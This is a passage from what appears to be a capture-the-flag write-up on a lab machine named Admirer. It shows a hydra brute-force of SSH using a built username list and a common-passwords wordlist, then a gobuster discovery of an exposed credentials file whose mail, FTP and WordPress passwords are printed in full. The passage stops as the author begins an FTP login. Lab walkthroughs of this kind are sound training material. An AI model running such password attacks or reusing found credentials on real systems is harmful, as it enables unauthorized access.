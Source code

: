 ```bash
echo 'p.wise'    >> users.txt
echo 'r.nayyar'  >> users.txt
echo 'a.bialik'  >> users.txt
echo 'l.galecki' >> users.txt
echo 'h.helberg' >> users.txt
echo 'b.rauch'   >> users.txt
# install if not done already
sudo apt install seclists
# use a small wordlist because SSH takes a while...
cp /usr/share/seclists/Passwords/Common-Credentials/500-worst-passwords.txt . 
hydra -V -f -L users.txt -P 500-worst-passwords.txt ssh://10.10.10.187
```

Lol, while that was running, `gobuster` returns another result:

```
/credentials.txt (Status: 200)
```

Browsing to it shows the following:

```
[Internal mail account]
w.cooper@admirer.htb
fgJr6q#S\W:$P

[FTP account]
ftpuser
%n?4Wz}R$tTF7

[Wordpress account]
admin
w0rdpr3ss01!
```

Out of the passwords given, the FTP one seems immediately usable. Connect over FTP and see what is there:
